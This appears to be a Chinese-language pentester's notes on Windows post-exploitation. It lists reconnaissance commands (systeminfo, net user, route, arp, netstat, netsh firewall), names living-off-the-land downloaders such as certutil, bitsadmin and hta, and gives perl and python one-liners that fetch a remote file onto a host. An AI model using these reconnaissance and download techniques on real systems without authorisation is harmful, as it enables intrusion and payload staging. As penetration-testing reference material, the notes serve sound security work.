 js和certutil,bitsadmin,vbs



识别英文操作系统名称及版本   ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version"```

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                            ```
                            OS 名称:          Microsoft Windows 10 旗舰版
                            OS 版本:          10.0.14393 N/A Build 14393
                            ```

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

                           ```AMD64```
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

``` netstat -ano ```
``` netsh firewall show config ```
```netsh firewall show state ```

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

https://www.jianshu.com/p/502441bcebe0   15种下载


测试失败 perl -MLWP::Simple -e "getstore '("https://raw.githubusercontent.com/3gstudent/test/master/version.txt","163.txt")'"

perl -e "print 'Hello World \n'"   

downloader常用方法如下：

certUtil
powershell
csc
vbs
JScript
hta
bitsadmin
wget
debug
ftp
ftfp


python cmd 下载文件
```python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"```

